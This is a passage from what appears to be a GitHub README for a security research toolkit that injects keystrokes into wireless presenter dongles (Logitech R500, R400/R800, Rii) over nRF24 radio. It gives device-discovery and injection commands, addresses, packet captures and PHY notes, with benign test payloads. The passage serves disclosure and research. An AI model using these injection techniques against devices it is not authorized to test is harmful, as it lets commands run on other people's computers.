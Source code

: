 ``` 
**Remove the last byte of the payload, and copy and paste the string into logitech.py, replacing KEYUP_REF.**

(It *shouldn't* work without updating `KEYUP_REF`, but if it does, please let me know!)

#### Injection

Inject the bash `ping google.com` base-8-encoded keystroke sequence into a specific Logitech R500 dongle (address `85:D1:9D:FE:07`):

```sudo ./tools/r500-injector.py -l -a 85:D1:9D:FE:07```

### Logitech Unencrypted

#### Overview

This is the standard unencrypted Logitech protocol, used by the R400/R800.

#### Device Discovery

You can find the address of your Logitech R400/R800 using `nrf24-scanner` as follows:

```sudo ./tools/nrf24-scanner.py -c {2..74..3} -l```

Packets should look something like this:

```
[2019-04-21 12:58:43.466]  32   0  9D:9E:95:52:07  
[2019-04-21 12:58:43.620]  32  10  9D:9E:95:52:07  00:C1:00:00:00:00:00:00:00:3F
```

#### Injection

Inject the test keystroke sequence into a specific Logitech R400/R800 dongle (address `9D:9E:95:52:07`):

```sudo ./tools/preso-injector.py -l -f logitech -a 9D:9E:95:52:07```

### Rii Wireless Presenter

#### Overview

The Rii Wireless Presenter (rounded-pen) is based on the BK2451 (which seems to be a nRF24 clone). This looks like a generic protocol, based on the prevalence of sister devices, so I'll probably recategorize this after getting some more data.

It is functionally an unencrypted wireless keyboard, vulnerable to keystroke injection.

#### PHY

The Wireless Presenter (rounded-pen) uses 250Kb/s nRF24 Enhanced Shockburst (w/o ACKs it seems), and a 5-byte address. The device I tested was observed to be camping at 2425 MHz, but it seems to use some sort of frequency-agility scheme. In practice, it is necessary to send some dummy packets on the target channel before sending keystroke packets.

I suspect there is some channel hopping going on, which I haven't characterized, but targeting a single channel is sufficient to demonstrate keystroke injection.

#### Device Discovery

You can find the address of your Wireless Presenter (rounded-pen) using `nrf24-scanner` as follows:

```sudo ./tools/nrf24-scanner.py -c 25 -l -R 250K -A 5```

```